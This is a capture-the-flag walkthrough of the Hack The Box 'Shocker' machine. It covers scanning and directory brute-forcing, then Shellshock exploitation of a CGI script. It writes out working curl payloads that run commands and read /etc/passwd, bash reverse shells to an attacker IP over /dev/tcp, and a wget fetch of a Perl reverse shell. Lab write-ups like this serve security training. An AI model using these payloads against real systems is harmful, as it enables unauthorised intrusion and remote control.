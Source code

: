 # Shocker Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA shocker 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357310-160d9812-0522-4479-9126-c9dfb936d848.png)

``nmap --script vuln 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357364-2f1a6ef5-cb76-45aa-9dbe-1aa2565ce426.png)

``nikto -host http://10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357618-4e8827c0-36ac-4262-8d96-6f39bb768a17.png)

# ${{\color{purple}Initial Foothold}}\ $

``dirb http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CGIs.txt -t 50``

![image](https://user-images.githubusercontent.com/123066149/226358323-1477f05a-58f6-4cb4-a09b-0f501c1fab3c.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -x cgi,php,html``

![image](https://user-images.githubusercontent.com/123066149/226358774-9ff94040-b230-4b9f-80cd-4192b8cadbb0.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh``

![image](https://user-images.githubusercontent.com/123066149/226358987-9f981b40-2e78-425f-b55c-8e6cc4501907.png)

# ${{\color{purple}Exploitation}}\ $

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359725-99a8e315-f5cd-4c97-a665-d35ee18b483c.png)

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359889-1dfca83c-36ec-414c-8a28-9d8e413639c8.png)

``curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226360049-1b28e5c0-6da6-45b4-b402-8f3cd40f2f6a.png)

``tcpdump -i tun0 icmp``

![image](https://user-images.githubusercontent.com/123066149/226360977-54c45416-dd99-4277-a907-282565f43809.png)

``() { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/8888 0>&1``

![image](https://user-images.githubusercontent.com/123066149/226362205-e35b0eb5-850a-43c9-8981-381bd14795b5.png)


# ${{\color{purple}Privilege Escalation}}\ $

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/226363790-6c615050-105d-452c-99fd-d788831cab73.png)

``wget http://10.10.16.3:80/perl_pentest_monkey.pl && chmod +x perl_pentest_monkey.pl``

![image](https://user-images.githubusercontent.com/123066149/226364007-ae3f7cf5-6268-44e3-8ee2-49e646b769cd.png)

![image](https://user-images.githubusercontent.com/123066149/226364266-decade33-b8d1-4b2a-a900-04efe2f7cd1e.png)

![image](https://user-images.githubusercontent.com/123066149/226364474-3b850292-695e-42c4-a7db-0081e34dc9bf.png)

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to use several extensions during the recon phase
